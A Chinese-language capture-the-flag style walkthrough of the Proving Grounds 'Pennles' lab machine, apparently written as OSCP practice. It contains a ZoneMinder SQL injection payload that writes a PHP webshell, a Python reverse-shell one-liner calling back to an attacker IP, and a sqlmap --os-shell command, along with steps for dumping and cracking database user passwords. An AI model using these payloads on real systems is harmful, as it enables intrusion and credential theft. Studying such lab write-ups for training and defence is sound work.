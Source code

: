 ```yaml
---
title: Proving Grounds Practice-Pennles
date: 2025-6-03 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250603141435694](./Pennles/image-20250603141435694.png)

# web

80,3305,8080都是web服务，分别扫一下各个目录

![image-20250603144842139](./Pennles/image-20250603144842139.png)

/zm目录下有一个cms的后台，不需要登录，通过搜索得知该cms存在sql注入漏洞

![image-20250603144901755](./Pennles/image-20250603144901755.png)

![image-20250603144910692](./Pennles/image-20250603144910692.png)

![image-20250603144923152](./Pennles/image-20250603144923152.png)

## 方法一--尝试手注

使用exp中的示例可以成功注入

![image-20250603145558341](./Pennles/image-20250603145558341.png)

可以使用该sql语句写入一个shell文件

```
view=request&request=log&task=query&limit=100;(select "<?php system($_GET['132']); phpinfo();?>" into outfile '/var/www/html/shell5.php')#&minTime=1466674406.084434

```

可以成功命令执行

![image-20250603151152631](./Pennles/image-20250603151152631.png)

可以使用该反弹shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.243",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![image-20250603152516502](./Pennles/image-20250603152516502.png)

搜索一圈之后没有有用的信息，`www-data`的用户目录实在`/var/www/`下，但是该目录不是`/zm`应用目录，在前面sql注入的报错中可以找到真的网站源码所在的位置`/usr/share/zoneminder/www/`该目录下所有的文件都属于`www-data`，但是没有有用的用户信息

![image-20250603172542717](./Pennles/image-20250603172542717.png)

该文件夹下运行www-data用户写入，但是上传文件时还需要注意的是靶机对防火墙策略做了更改，只允许特定端口的流量进出，所以上传时攻击机开的服务器应该是特定端口，比如80

上传`linpeas.sh`脚本查找可提权的路径

仔细查看后是存在数据库连接账号密码的，但是前面信息收集不完善没有注意到。

![image-20250603173623664](./Pennles/image-20250603173623664.png)

![image-20250603173635376](./Pennles/image-20250603173635376.png)

并且本地开放了3306端口，那就可以使用mysql连接

![image-20250603173737580](./Pennles/image-20250603173737580.png)

![image-20250603174024244](./Pennles/image-20250603174024244.png)

数据库名上面的配置文件中有，查询表名，然后查询`Users`表

![image-20250603174057914](./Pennles/image-20250603174057914.png)

![image-20250603174113843](./Pennles/image-20250603174113843.png)

该密码可以成功破解，但是该密码不能成功登录到root用户

![image-20250603174233448](./Pennles/image-20250603174233448.png)

继续看上面自动化脚本执行的结果，其中该版本存在linux内核提权漏洞

![image-20250603174704484](./Pennles/image-20250603174704484.png)

查看他人的wp之后该cve确实可以提权，但是靶机上没有gcc，本地编译后上传会出现缺少依赖的情况，尝试许久无法解决，有能力的师傅可以自己试试。

## 方法二--sqlmap

前面的`sql注入`是可以使用`sqlmap`的，但是`OCSP`考试不允许使用该类自动化工具，所以尝试了前面的方法-手注，可以使用`sqlmap`的`--os-shell`参数直接`getshell`.

```
sqlmap http://192.168.153.52/zm --data="view=request&request=log&task=query&limit=100&minTime=1466674406.084434" -p limit --threads=5 --os-shell   
```

![image-20250604114126270](./Pennles/image-20250604114126270.png)